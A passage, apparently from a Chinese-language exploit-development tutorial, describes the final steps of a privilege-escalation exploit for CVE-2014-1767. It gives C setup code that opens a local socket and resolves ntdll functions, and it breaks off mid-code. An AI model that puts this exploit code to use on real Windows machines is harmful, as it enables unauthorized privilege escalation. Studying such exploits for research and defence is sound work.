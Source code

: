 6、调用NtSetInformationWorkerFactory，将第三个参数指向ShellCode，这样NtSetInformationWorkerFactory在进行写入操作时候，会将ShellCode地址写入到想要的地址。  
  
  
7、调用目标函数实现提权。  
##   
## 2.具体实现  
  
  
要实现提权，首先需要获取套接字，并对通信时使用的输入数据，需要调用的函数等进行初始化：  
```
SOCKET GetSocket()
{
    BOOL bRet = TRUE;
    WSADATA WSAData;
    SOCKET s = INVALID_SOCKET;
    SOCKADDR_IN sa;
    int ierr;

    if (WSAStartup(0x2, &WSAData) != 0)
    {
        ShowError("WSAStartup", WSAGetLastError());
        goto exit;
    }

    s = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    if (s == INVALID_SOCKET)
    {
        ShowError("socket", WSAGetLastError());
        goto exit;
    }

    memset(&sa, 0, sizeof(sa));
    sa.sin_port = htons(135);
    sa.sin_addr.S_un.S_addr = inet_addr("127.0.0.1");
    sa.sin_family = AF_INET;
    ierr = connect(s, (const struct sockaddr*)&sa, sizeof(sa));
    if (ierr == SOCKET_ERROR)
    {
        ShowError("connect", WSAGetLastError());
        goto exit;
    }

exit:
    return s;
}

BOOL Init_CVE_2014_1767()
{
    BOOL bRet = TRUE;
    HMODULE hDll = NULL;

    // 加载要调用的函数
    hDll = LoadLibrary("ntdll.dll");
    if (!hDll)
    {
        ShowError("LoadLibrary", GetLastError());
        bRet = FALSE;
        goto exit;
    }

    fnNtCreateWorkerFactory = (lpfnNtCreateWorkerFactory)GetProcAddress(hDll, "ZwCreateWorkerFactory");
    fnNtQueryEaFile = (lpfnNtQueryEaFile)GetProcAddress(hDll, "ZwQueryEaFile");
```